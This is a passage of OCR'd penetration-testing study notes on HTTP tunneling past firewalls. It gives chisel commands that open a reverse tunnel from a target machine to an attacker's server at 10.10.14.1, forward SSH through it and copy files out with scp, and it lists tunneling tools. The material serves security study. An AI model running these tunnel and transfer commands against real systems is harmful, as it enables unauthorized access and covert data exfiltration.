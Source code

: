             ```bash
            sudo apt-get install chisel
            ./chisel server -p 8080 --reverse
            
            ```
            
            This starts a chisel server listening on port 8080, ready to accept incoming reverse tunnels.
            
    2. **Set up the HTTP tunnel client on the target machine:**
        
        - On the target machine (if you have shell access), set up the reverse connection to the attacker's server:
            
            ```bash
            bash
            Copy code
            ./chisel client <http://10.10.14.1:8080> R:8081:localhost:22
            
            ```
            
            This command creates a reverse tunnel through HTTP. The `R:8081:localhost:22` part means that port 8081 on the attacker's machine is forwarded to port 22 (SSH) on the target. You can change the port or service depending on what you need to tunnel.
            
    3. **Transfer files through the HTTP tunnel:**
        
        - Now that you have an HTTP tunnel, you can transfer files through the tunneled connection using standard tools:
            
            ```bash
            bash
            Copy code
            scp -P 8081 user@localhost:/path/to/file .
            
            ```
            
            The HTTP tunnel will forward the request to the target machine, allowing file transfer despite the firewall.
            
    
    ### **Tools for HTTP Tunneling:**
    
    - **HTTPTunnel**: Allows you to tunnel any TCP connection through an HTTP proxy.
    - **Chisel**: Fast TCP/UDP tunneling over HTTP, great for tunneling services like SSH.
    - **Tunna**: A web application that creates a tunnel using HTTP requests.
    
    ---
    
    ### **When to Use DNS or HTTP Tunneling**
    
    - **DNS tunneling**: Useful when DNS traffic is allowed but other outbound traffic is blocked. DNS queries are often overlooked by firewalls.
    - **HTTP tunneling**: Useful in environments where only web traffic is allowed. HTTP requests can encapsulate other protocols like SSH or SCP for file transfers.
    
    ---
    
    ### **Study Tips**
    